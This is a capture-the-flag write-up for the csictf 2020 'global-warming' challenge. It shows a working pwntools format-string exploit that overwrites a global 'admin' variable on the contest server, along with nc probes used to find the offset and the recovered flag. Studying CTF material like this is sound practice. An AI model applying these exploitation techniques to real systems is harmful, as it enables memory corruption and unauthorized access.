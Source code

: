 The `printf` from `login` does not have a format string.  Simply use a format-string exploit to change the global `admin` to `-0x4b24541d` (`0xb4dbabe3`).


### Exploit

```python
#!/usr/bin/python3

from pwn import *

binary = ELF('./global-warming')
context.update(arch='i386',os='linux')
p = remote('chall.csivit.com', 30023)
offset=12
p.sendline(fmtstr_payload(offset,{binary.sym.admin:p32(0xb4dbabe3)}))
_ = p.recvuntil('}').strip()
flag = _[_.find(b'csictf{'):].decode()
print('\n' + flag + '\n')
```

It is important to set the context to the correct arch when using the pwntools format-string functions.

The `offset` can be quickly found with:

```bash
# echo '%1$p' | nc chall.csivit.com 30023
0xf7f4fff0
```

Just increment the number until the output matches the input, e.g.:

```bash
# echo '%12$p' | nc chall.csivit.com 30023
0x24323125
```

That 4-byte value is actually the string `%12$`, IOW a match and the `offset`.


### Output

```bash
# ./exploit.py
[*] '/pwd/datajerk/csictf2020/global_warming/global-warming'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to chall.csivit.com on port 30023: Done

csictf{n0_5tr1ng5_@tt@ch3d}
```


